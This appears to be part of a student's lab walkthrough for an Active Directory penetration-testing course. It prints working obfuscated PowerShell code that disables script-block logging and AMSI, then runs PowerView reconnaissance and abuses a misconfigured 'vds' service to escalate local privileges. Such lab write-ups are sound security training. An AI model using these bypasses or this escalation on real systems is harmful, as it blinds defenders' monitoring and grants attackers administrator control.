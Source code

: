???

![Run as administrator](learning_objectives_run_as_administrator.png)

![studvm | studentuser](https://custom-icon-badges.demolab.com/badge/studvm-studentuser-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat`:
```
[SNIP]
```

`type C:\AD\Tools\sbloggingbypass.txt`:
```powershell
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

`iex (type C:\AD\Tools\sbloggingbypass.txt)`

`type C:\AD\Tools\amsibypass.txt`:
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

`iex (type C:\AD\Tools\amsibypass.txt)`

`Import-Module C:\AD\Tools\PowerView.ps1`

`Find-DomainUserLocation`:
```
UserDomain      : DCORP-STD422🖥️
UserName        : Administrator👤
ComputerName    : dcorp-std422.dollarcorp.moneycorp.local
IPAddress       : 172.16.100.22
SessionFrom     :
SessionFromName :
LocalAdmin      :
```

---

### Local Privilege Escalation | Feature Abuse (with PowerUp)

2) **Service Abuse for Local Privilege Escalation** (successful ✅)

Description: Identified and exploited a misconfigured Windows service (`vds`) to escalate privileges by modifying its binary path and adding the current user to the Administrators group.
